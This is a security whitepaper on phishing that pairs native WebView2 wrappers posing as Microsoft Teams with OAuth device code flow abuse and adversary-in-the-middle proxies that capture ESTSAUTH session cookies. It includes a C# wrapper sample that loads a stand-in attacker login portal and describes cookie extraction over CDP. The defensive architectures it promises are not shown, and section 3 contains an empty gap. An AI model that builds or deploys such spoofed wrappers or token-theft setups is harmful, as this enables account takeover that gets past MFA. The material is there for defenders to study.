

# 🔬 Native Wrappers, Device Code Flow & AiTM Convergence
**Whitepaper CASF-WP-03 · Systems & Security Research**
*Authored by Maya Thorne · Published October 2026*

---

## 1. Executive Summary

While basic shortcut spoofing relies on installed Chromium browsers, contemporary threat actors have escalated towards two distinct attack frontiers:
1. **Lightweight Native Wrappers (WebView2 / CefSharp)**: Embedding web rendering engines inside standalone C# executables to evade browser process detection rules entirely.
2. **Protocol & Session Hijacking (OAuth 2.0 Device Flow & AiTM Proxies)**: Bypassing multi-factor authentication (MFA) and FIDO2 hardware keys by intercepting token issuance at the protocol layer.

This whitepaper investigates the technical convergence of these techniques and establishes defense architectures for modern SOCs.

---

## 2. Microsoft Edge WebView2 Native Wrappers

Rather than spawning `chrome.exe` or `brave.exe`, an adversary packages a 50 KB compiled .NET WinForms/WPF executable:

```csharp
// Lightweight WebView2 Wrapper Mimicking Teams
public class TeamsSpoofWindow : Form {
    public TeamsSpoofWindow() {
        this.Text = "Microsoft Teams";
        this.Size = new Size(480, 640);
        this.FormBorderStyle = FormBorderStyle.FixedDialog;
        this.Icon = Icon.ExtractAssociatedIcon(@"C:\Path\To\real_teams.ico");

        var webView = new Microsoft.Web.WebView2.WinForms.WebView2 { Dock = DockStyle.Fill };
        this.Controls.Add(webView);
        webView.EnsureCoreWebView2Async().ContinueWith(task => {
            webView.CoreWebView2.Navigate("https://adversary-aitm-portal.internal/login");
        });
    }
}
```

### 2.1 Evasion Characteristics
- **Process Name Integrity**: The process name in Windows Task Manager is `Teams.exe` or `ms-teams.exe`.
- **Zero Browser Chrome**: Because the host is a standard Win32 dialog frame, zero browser navigation UI or omnibox controls ever exist.
- **CDP Automation**: The wrapper can execute internal Chrome DevTools Protocol commands (`Network.getCookies`) directly in memory without spawning external debuggers.

---

## 3. OAuth 2.0 Device Code Flow Abuse (RFC 8628)

Adversaries increasingly target enterprise cloud identities via RFC 8628 (OAuth 2.0 Device Authorization Grant):



### 3.1 Why Device Code Flow Defeats Traditional Defenses
- The victim enters their credentials and completes MFA on the legitimate `microsoft.com` website.
- No credential harvesting scripts ever run on the victim machine.
- FIDO2 / WebAuthn origin checks pass because the user is on the genuine domain.
- Upon completion, the attacker receives a persistent Refresh Token.

---

## 4. Adversary-in-the-Middle (AiTM) Reverse Proxy Integration

When direct credential input is utilized, modern campaigns deploy AiTM reverse proxies (Evilginx3, Modlishka) behind the spoofed app interface:
- **Proxy Mirroring**: The app window mirrors genuine Microsoft Entra ID login pages in real time.
- **TOTP / Push Relay**: 2FA prompts and number-matching push challenges are transparently forwarded.
- **Session Hijacking**: Upon successful authentication, the proxy captures critical session cookies:
  - `ESTSAUTH`: Primary session authentication cookie.
  - `ESTSAUTHPERSISTENT`: Persistent sign-in token.
- Captured session cookies allow the attacker to replay access without requiring the victim's password or second factor again.
